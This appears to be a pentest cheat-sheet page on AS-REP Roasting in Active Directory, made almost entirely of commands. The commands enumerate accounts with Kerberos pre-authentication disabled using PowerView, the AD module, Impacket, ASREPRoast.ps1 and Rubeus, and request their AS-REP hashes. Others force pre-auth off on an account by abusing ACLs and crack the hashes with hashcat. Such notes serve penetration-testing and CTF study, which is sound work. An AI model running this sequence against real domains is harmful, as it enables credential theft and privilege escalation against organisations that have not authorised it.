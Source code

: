 ```yaml
---
description: Kerberos Pre-Auth Disabled
---
```


# AS-REP Roasting

### Enumerating accounts with Kerberos Pre-auth disabled <a href="#enumerating-accounts-with-kerberos-pre-auth-disabled" id="enumerating-accounts-with-kerberos-pre-auth-disabled"></a>

#### Using PowerView (dev): <a href="#using-powerview-dev" id="using-powerview-dev"></a>

```powershell
Get-DomainUser -PreauthNotRequired -Verbose
```

**Using Active Directory module:**

```powershell
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```

#### Using Impacket-Tools <a href="#using-impacket-tools" id="using-impacket-tools"></a>

```bash
impacket-GetNPUsers 'htb.local/' -dc-ip 10.10.10.161 
impacket-GetNPUsers evilcorp.local/ -dc-ip 192.168.23.157 -usersfile usernames.txt 
```

```bash
impacket-GetNPUsers 'htb.local/' -dc-ip 10.10.10.161 -request
```

#### ASREPRoast.ps1 <a href="#asreproast.ps1" id="asreproast.ps1"></a>

```powershell
 . .\ASREPRoast\ASREPRoast.ps1
 
 Get-ASREPHash -UserName VPN1user -Verbose
```

#### To enumerate all users with Kerberos preauth disabled and request a has <a href="#to-enumerate-all-users-with-kerberos-preauth-disabled-and-request-a-has" id="to-enumerate-all-users-with-kerberos-preauth-disabled-and-request-a-has"></a>

```powershell
Invoke-ASREPRoast -Verbose
```

### Rubeus <a href="#rubeus" id="rubeus"></a>

```batch
.\Rubeus.exe asreproast /nowrap
```

### Force disable Kerberos Preauth: <a href="#force-disable-kerberos-preauth" id="force-disable-kerberos-preauth"></a>

Let's enumerate the permissions for RDPUsers on ACLs using PowerView(dev):

```powershell
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReferenceName -match "RDPUsers"}

Set-DomainObject -Identity Control1User -XOR@{useraccountcontrol=4194304} –Verbose

Get-DomainUser -PreauthNotRequired -Verbose
```

#### Cracking AS-REP Hash <a href="#cracking-as-rep" id="cracking-as-rep"></a>

```batch
sudo hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
